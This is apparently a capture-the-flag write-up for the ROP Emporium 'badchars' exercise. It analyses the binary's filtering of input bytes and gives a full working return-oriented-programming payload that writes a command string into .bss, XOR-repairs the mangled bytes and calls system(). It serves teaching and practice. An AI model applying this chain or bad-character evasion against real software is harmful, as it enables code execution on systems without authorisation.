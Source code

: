 ```yaml
---
title: 05_badchars
categories: [series, rop_emporium]
---
```


# ROP Emporium badchars

* **Tools:** IDA Free 7.0, gdb-gef, ropper, readelf
* **Prerequistes:** Stack frame
* **Download solution:** [main.py](/assets/series/rop_emporium/main.py)

## Overview

> "An arbitrary write challenge with a twist; certain input characters get mangled before finding their way onto the stack. [...]"

In this challenge, a function checks our input and if it contains some "special" characters, they are replaced by the byte `0xEB`. Otherwise, it is similar to the challenge [write4](/posts/ropemporium-write4/).

## Function pwnme() 

`_fgets()` takes an input of up to 0x200 bytes and stores it on the heap. Then, the length of this input is computed by the function `nstrlen()`: it stops when the character `0x0A` is found:
```
0x0000000000400A0E    mov     rdx, [rbp+user_input]
0x0000000000400A12    mov     rax, [rbp+i]
0x0000000000400A16    add     rax, rdx
0x0000000000400A19    movzx   eax, byte ptr [rax]
0x0000000000400A1C    cmp     al, 0Ah       ; line feed
0x0000000000400A1E    jnz     short next_char
0x0000000000400A20    add     [rbp+i], 1    ; +1
0x0000000000400A25    mov     rax, [rbp+i]
0x0000000000400A29    jmp     short exit
```
The length is returned in `rax` and used by the function `checkBadchars()` to check user input. Forbidden chars are replaced by `0xEB`:
```
0x0000000000400A90    mov     rdx, [rbp+user_input]
0x0000000000400A94    mov     rax, [rbp+i]  ; length input
0x0000000000400A98    add     rax, rdx
0x0000000000400A9B    movzx   edx, byte ptr [rax]
0x0000000000400A9E    lea     rcx, [rbp+badchars_array] ; <space>bcfins/
0x0000000000400AA2    mov     rax, [rbp+j]
0x0000000000400AA6    add     rax, rcx
0x0000000000400AA9    movzx   eax, byte ptr [rax]
0x0000000000400AAC    cmp     dl, al    ; cmp input[i], badchars[j]
0x0000000000400AAE    jnz     short ok
0x0000000000400AB0    mov     rdx, [rbp+user_input]
0x0000000000400AB4    mov     rax, [rbp+i]
0x0000000000400AB8    add     rax, rdx
0x0000000000400ABB    mov     byte ptr [rax], 0EBh ; patch
0x0000000000400ABE    jmp     short inc_counter
```
Once filtered, the user input is copied to the stack:
```
0x00000000004009B5    mov     rdx, [rbp+str_length] ; input length
[...]
0x00000000004009C5    mov     rsi, rax        ; src: filtered input
0x00000000004009C8    mov     rdi, rcx        ; dest
0x00000000004009CB    call    _memcpy
```

## Arbitraty write

As usual, `usefulFunction()` implements a "`call to system() with edi pointing to "/bin/ls"`". The string `"/bin/cat flag.txt"` is absent so we'll have to find an arbitrary write. 
The section `.bss` still seems to be a good place to write the string `"/bin/cat flag.txt"`:
```bash
readelf --sections ../challs/badchars
There are 31 section headers, starting at offset 0x1d08:

Section Headers:
[Nr] Name              Type             Address           Offset
     Size              EntSize          Flags  Link  Info  Align
[...]
[26] .bss              NOBITS           0000000000601080  00001080
       0000000000000030  0000000000000000  WA       0     0     32
[...]
```
We find 2 write gadgets:
```bash
ropper --search "mov [%]"  -f ../challs/badchars
[...]
[INFO] File: ../challs/badchars
0x0000000000400b35: mov dword ptr [rbp], esp; ret; 
0x0000000000400b34: mov qword ptr [r13], r12; ret; 
```
Focusing on the `r13` / `r12` pair:
```bash
ropper --search "??? r1?" -f ../challs/badchars
[...]
0x0000000000400bac: pop r12; pop r13; pop r14; pop r15; ret; 
0x0000000000400b3b: pop r12; pop r13; ret; 
0x0000000000400bae: pop r13; pop r14; pop r15; ret; 
0x0000000000400b3d: pop r13; ret; 
0x0000000000400b40: pop r14; pop r15; ret; 
0x0000000000400b42: pop r15; ret; 
```
In addition, if our input contains forbidden chars they will be replaced by `0xEB`. 
Whether we encode the user input before or let the function `checkBadchars()` replace the badchars, we'll need a gadget to fix things afterwards. In both cases a good old `xor` can do the trick:
```bash
ropper --search "xor ???" -f ../challs/badchars
[...]
0x0000000000400b30: xor byte ptr [r15], r14b; ret; 
0x0000000000400b31: xor byte ptr [rdi], dh; ret; 
```
And from the before last ropper output, we know we can control `r14` and `r15`.
Last gadget we need is a write into `rdi`:
```bash
ropper --search "??? rdi" -f ../challs/badchars
[...]
0x00000000004009d4: mov rdi, rax; call 0x6d0; nop; leave; ret; 
0x0000000000400b39: pop rdi; ret; 
```

## Building the chain

I opted for an non-encoded payload and just xoring the `0xEB` bytes to retrieve the correct `"/bin/cat flag.txt"` string. For example, let's say we want `0x62` to be the final result written somewhere: `0x62 ^ 0xEB = 0x89`.
The payload:
```python
payload = b''
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41'  # fill buffer
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41'  # fill buffer
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41'  # fill buffer
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41'  # fill buffer
payload += b'\x42\x42\x42\x42\x42\x42\x42\x42'  # fill buffer (overwrite RSP)

# Write to .bss
payload += b'\x3b\x0b\x40\x00\x00\x00\x00\x00'  # pop r12, pop r13, ret
payload += b'\x2f\x62\x69\x6e\x2f\x63\x61\x74'  # r12 = "/bin/cat"
payload += b'\x80\x10\x60\x00\x00\x00\x00\x00'  # r13 -> .bss
payload += b'\x34\x0b\x40\x00\x00\x00\x00\x00'  # mov [r13], r12

payload += b'\x3b\x0b\x40\x00\x00\x00\x00\x00'  # pop r12, pop r13, ret
payload += b'\x20\x66\x6c\x61\x67\x2e\x74\x78' # r12 = " flag.tx"
payload += b'\x88\x10\x60\x00\x00\x00\x00\x00'  # r13 -> .bss+8
payload += b'\x34\x0b\x40\x00\x00\x00\x00\x00'  # mov [r13], r12

payload += b'\x3b\x0b\x40\x00\x00\x00\x00\x00'  # pop r12, pop r13, ret
payload += b'\x74\x00\x00\x00\x00\x00\x00\x00'  # r12 = "t\x00"
payload += b'\x90\x10\x60\x00\x00\x00\x00\x00'  # r13 -> .bss+0x10
payload += b'\x34\x0b\x40\x00\x00\x00\x00\x00'  # mov [r13], r12

# Fix the \xEB bytes
# --- 0xc4 ^ 0xeb = 0x2f ("/")
payload += b'\x40\x0b\x40\x00\x00\x00\x00\x00'  # pop r14, pop r15, ret
payload += b'\xc4\x00\x00\x00\x00\x00\x00\x00'  # r14 = 0xc4 (xorkey n°1)
payload += b'\x80\x10\x60\x00\x00\x00\x00\x00'  # r15 -> .bss (found badchar n°1)
payload += b'\x30\x0b\x40\x00\x00\x00\x00\x00'  # xor [r15], r14b, ret
# --- 0x89 ^ 0xeb = 0x62 ("b")
payload += b'\x40\x0b\x40\x00\x00\x00\x00\x00'  # pop r14, pop r15, ret
payload += b'\x89\x00\x00\x00\x00\x00\x00\x00'  # r14 = 0x89 (xorkey n°2)
payload += b'\x81\x10\x60\x00\x00\x00\x00\x00'  # r15 -> .bss+1 (found badchar n°2)
payload += b'\x30\x0b\x40\x00\x00\x00\x00\x00'  # xor [r15], r14b, ret
# --- 0x82 ^ 0xeb = 0x69 ("i")
payload += b'\x40\x0b\x40\x00\x00\x00\x00\x00'  # pop r14, pop r15, ret
payload += b'\x82\x00\x00\x00\x00\x00\x00\x00'  # r14 = 0x82 (xorkey n°3)
payload += b'\x82\x10\x60\x00\x00\x00\x00\x00'  # r15 -> .bss+2 (found badchar n°3)
payload += b'\x30\x0b\x40\x00\x00\x00\x00\x00'  # xor [r15], r14b, ret
# --- 0x85 ^ 0xeb = 0x6e ("n")
payload += b'\x40\x0b\x40\x00\x00\x00\x00\x00'  # pop r14, pop r15, ret
payload += b'\x85\x00\x00\x00\x00\x00\x00\x00'  # r14 = 0x85 (xorkey n°4)
payload += b'\x83\x10\x60\x00\x00\x00\x00\x00'  # r15 -> .bss+3 (found badchar n°4)
payload += b'\x30\x0b\x40\x00\x00\x00\x00\x00'  # xor [r15], r14b, ret
# --- 0xc4 ^ 0xeb = 0x2f ("/")
payload += b'\x40\x0b\x40\x00\x00\x00\x00\x00'  # pop r14, pop r15, ret
payload += b'\xc4\x00\x00\x00\x00\x00\x00\x00'  # r14 = 0xc4 (xorkey n°5)
payload += b'\x84\x10\x60\x00\x00\x00\x00\x00'  # r15 -> .bss+4 (found badchar n°5)
payload += b'\x30\x0b\x40\x00\x00\x00\x00\x00'  # xor [r15], r14b, ret
# --- 0x88 ^ 0xeb = 0x63 ("c")
payload += b'\x40\x0b\x40\x00\x00\x00\x00\x00'  # pop r14, pop r15, ret
payload += b'\x88\x00\x00\x00\x00\x00\x00\x00'  # r14 = 0x88 (xorkey n°6)
payload += b'\x85\x10\x60\x00\x00\x00\x00\x00'  # r15 -> .bss+5 (found badchar n°6)
payload += b'\x30\x0b\x40\x00\x00\x00\x00\x00'  # xor [r15], r14b, ret
# --- 0xcb ^ 0xeb = 0x20 (" ")
payload += b'\x40\x0b\x40\x00\x00\x00\x00\x00'  # pop r14, pop r15, ret
payload += b'\xcb\x00\x00\x00\x00\x00\x00\x00'  # r14 = 0xcb (xorkey n°7)
payload += b'\x88\x10\x60\x00\x00\x00\x00\x00'  # r15 -> .bss+8 (found badchar n°7)
payload += b'\x30\x0b\x40\x00\x00\x00\x00\x00'  # xor [r15], r14b, ret
# --- 0x8d ^ 0xeb = 0x66 (f")
payload += b'\x40\x0b\x40\x00\x00\x00\x00\x00'  # pop r14, pop r15, ret
payload += b'\x8d\x00\x00\x00\x00\x00\x00\x00'  # r14 = 0x8d (xorkey n°8)
payload += b'\x89\x10\x60\x00\x00\x00\x00\x00'  # r15 -> .bss+9 (found badchar n°8)
payload += b'\x30\x0b\x40\x00\x00\x00\x00\x00'  # xor [r15], r14b, ret

# Get flag
payload += b'\x39\x0b\x40\x00\x00\x00\x00\x00'  # pop rdi, ret
payload += b'\x80\x10\x60\x00\x00\x00\x00\x00'  # ->"/bin/cat flag.txt"
payload += b'\xe8\x09\x40\x00\x00\x00\x00\x00'  # call _system()
payload += b'\x43\x43\x43\x43\x43\x43\x43\x43'  # dummy (stack alignment)
payload += b'\xb9\x07\x40\x00\x00\x00\x00\x00'  # hlt
```

---
EOF
